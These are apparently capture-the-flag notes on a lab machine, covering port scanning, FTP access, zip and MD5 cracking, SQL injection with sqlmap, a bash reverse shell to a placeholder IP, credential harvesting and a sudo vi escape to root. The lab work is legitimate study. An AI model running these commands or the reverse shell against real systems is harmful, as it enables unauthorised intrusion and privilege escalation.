 - 10.10.10.46
 
- nmap scan for open ports:
	- 21: ftp
		- vsftpd 3.0.3
	- 22: ssh
		- openSSH 8.0p1
	- 80: http
		- Apache httpd 2.4.41

- ftp:
	- connect with given creds:
		- `ftpuser:mc@F1l3ZilL4`
	- -> received .zip file protected with password
		- crack with john:
		```
		zip2john <.zip_file> > <output.hashes>
		john <output.hashes> -w <wordlist>
		```
		- get password `backup.zip:741852963`
		- and files `style.css, index.php`
			- in index.php there is password hash (MD5) => `2cb42f8734ea607eefed3b70af13bbd3:qwerty789`

- webpage
	- login page - try creds from previous box
		- -> no go
	- login page - try creds from `index.php`
		- `admin:qwerty789`
	- =>we get to page with search
		- vulnerable to SQL injection
		- run sqlmap on it:	`sqlmap -u='<URL>' --cookie="<COOKIE_inc_the_name>"`
		- get shell - run previous command with `--os-shell`


- foothold
	- gotten with sqlmap
	- run `bash -c 'bash -i >& /dev/tcp/<IP>/4444 0>&1'` for reverse shell

- privilege escalation
	- do research in `/var/www/`
	- in `dashboard.php` are creds
		- `postgres:P@s5w0rd!`
	- `sudo -l`
		- you can run `/bin/vi /etc/postgresql/11/main/pg_hba.conf` as sudo
			- from vi run `:!/bin/bash` => root -> flag